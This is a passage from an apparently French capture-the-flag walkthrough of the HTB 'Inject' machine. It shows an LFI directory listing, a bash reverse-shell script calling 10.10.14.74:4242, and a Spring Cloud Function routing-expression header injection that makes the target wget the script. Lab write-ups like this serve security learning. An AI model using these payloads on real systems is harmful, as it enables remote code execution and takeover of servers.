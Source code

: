 Résultat (grâce à la la lfi):

```http
HTTP/1.1 200 
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 12288
Date: Tue, 06 Jun 2023 14:08:13 GMT
Connection: close

.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
exploit.sh
hsperfdata_frank
pouet
systemd-private-e41c6f6943eb419db9a03ca56298bac2-ModemManager.service-R6v27h
systemd-private-e41c6f6943eb419db9a03ca56298bac2-systemd-logind.service-wm9ANg
systemd-private-e41c6f6943eb419db9a03ca56298bac2-systemd-resolved.service-kAZMYg
systemd-private-e41c6f6943eb419db9a03ca56298bac2-systemd-timesyncd.service-g7FKej
titi
tomcat.8080.4515125589129326133
tomcat-docbase.8080.16664339331097704636
toto
vmware-root_737-4257003961
```

Par contre, les redirections et autres pipes ne sont bien évidemment pas possibles (il ne s'agit pas d'un interpréteur de commande de type bash).

Plusieurs possibilités s'offrent à nous. 

### RFI && reverse shell

L'une d'entre elles consiste à créer un fichier sur notre machine, un script bash, qui va être exécuté via l'application vérolée.

Par exemple :

```bash
#!/usr/bin/sh

sh -i >& /dev/tcp/10.10.14.74/4242 0>&1
```

Et ensuite :

```http
POST /functionRouter HTTP/1.1
Host: inject.htb:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.74:4343/exploit.sh --output-document=/tmp/exploit.sh")
Content-Length: 5

totot
```
